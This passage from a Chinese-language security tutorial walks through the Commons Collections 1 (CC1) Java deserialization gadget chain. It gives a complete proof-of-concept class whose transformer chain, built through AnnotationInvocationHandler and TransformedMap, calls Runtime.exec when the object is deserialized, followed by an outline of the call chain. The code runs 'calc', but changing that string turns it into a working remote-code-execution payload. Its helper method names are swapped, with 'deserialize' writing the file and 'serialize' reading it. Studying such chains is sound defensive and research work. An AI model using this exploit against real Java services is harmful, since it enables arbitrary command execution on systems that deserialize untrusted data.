 解决了上面两个问题，在对最终的对象进行反序列化时，就会调用该对象的readObject方法，然后调用后续的一系列方法，最终执行系统命令。完整的poc如下：

```java
public class CC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value","bbb");
        Map<Object,Object> decoratedMap = TransformedMap.decorate(map, null, chainedTransformer);
        for (Map.Entry entry : decoratedMap.entrySet()){
            entry.setValue(Runtime.class);
        }

        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Target.class, decoratedMap);

        deserialize(o,"test.ser");
        Object serialize = serialize("test.ser");
        System.out.println(serialize);

    }

    private static void deserialize(Object o,String fileName) throws Exception{
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(fileName));
        objectOutputStream.writeObject(o);
    }

    private static Object serialize(String fileName) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(fileName));
        return ois.readObject();
    }
}

```

我们再来梳理一下调用链：

```text
- 系统存在一个反序列化点
	- 传递我们构造的对象， 调用对象的readObject方法进行反序列化
		- readObject中调用了setValue方法
			- setValue方法中调用了checkSetValue方法
				- checkSetValue方法中调用transform
					- transform方法中利用反射执行系统命令
```
